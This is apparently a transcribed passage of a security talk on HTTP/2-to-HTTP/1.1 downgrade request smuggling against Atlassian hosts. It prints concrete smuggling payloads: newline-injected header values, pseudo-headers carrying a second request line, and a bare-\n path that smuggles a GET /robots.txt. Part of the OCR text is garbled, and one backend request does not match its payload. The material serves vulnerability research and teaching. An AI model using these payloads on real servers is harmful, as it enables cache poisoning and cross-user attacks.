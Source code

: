 | Name              | Value    |
| ----------------- | -------- |
| :method           | chunked  |
| foo: bar          | chunked  |
| transfer-encoding | HTTP/1.1 |

```back-end
GET / HTTP/1.1
foo: bar
transfer-encoding: chunked
host: ecosystem.atlassian.net
```
another issue was that they filtered header names ,and  head of values but failed to filter pseudo headers so  you could inject new lines in the request line, so here i've put the entire  payload in the method 

**Pseudo-headers unfiltered (http2 frontend)**

| :method | GET / HTTP/1.1<br>Transfer-Encoding: chunked<br>x: x |
| ------- | ---------------------------------------------------- |
| :path   | /ignored                                             |
**http1.1 back.end**
 ```back-end
GET / HTTP/1.1
transfer-encoding: chunked
x: x /ignored HTTP/1.1
host: ecosystem.atlassian.net
```
when you're doing this just think  about what the resulting request is going to look like when it gets  downgraded or otherwise you'll end up with an invalid request and the attack  will fail.
finally this is a classic one: they in the path they only block the slash r slash n sequence, they didn't  block slash n by itself and typically slash n is all you need for a successful  exploit. 

| :method | POST                                                                                         |
| ------- | -------------------------------------------------------------------------------------------- |
| :path   | ```/ HTTP/1.1\n<br>Hosta: exo.atlassian.net\n<br>\n<br>GET /robots.txt HTTP/1.1\n<br>x: x``` |
 ```back-end
GET / HTTP/1.1
transfer-encoding: chunked
x: x /ignored HTTP/1.1
host: ecosystem.atlassian.net
```
so in summary, in this section we've seen  a whole range of techniques that you can use to exploit hdb2 downgrades and  achieve requests smuggling.

## Tunneling
now i'm going to take a look at something less flashy less obvious but  still really quite dangerous, and in case you're wondering yet this is  the vulnerability that i found on bitbucket.

|                             | Rule bypass, header spoofing | Internal header theft | Cache poisoning | Direct cross-user atacks | Response queue poisoning |
| --------------------------- | ---------------------------- | --------------------- | --------------- | ------------------------ | ------------------------ |
| No-reuse                    | X                            |                       |                 |                          |                          |
| Cliente-connection affinity | X                            | X                     | X               |                          |                          |
| Client-IP affinity          | X                            | X                     | X               | /                        |                          |
| Full                        | X                            | X                     | X               | X                        | /                        |
| Pipelined                   | X                            | X                     | X               | X                        | X                        |
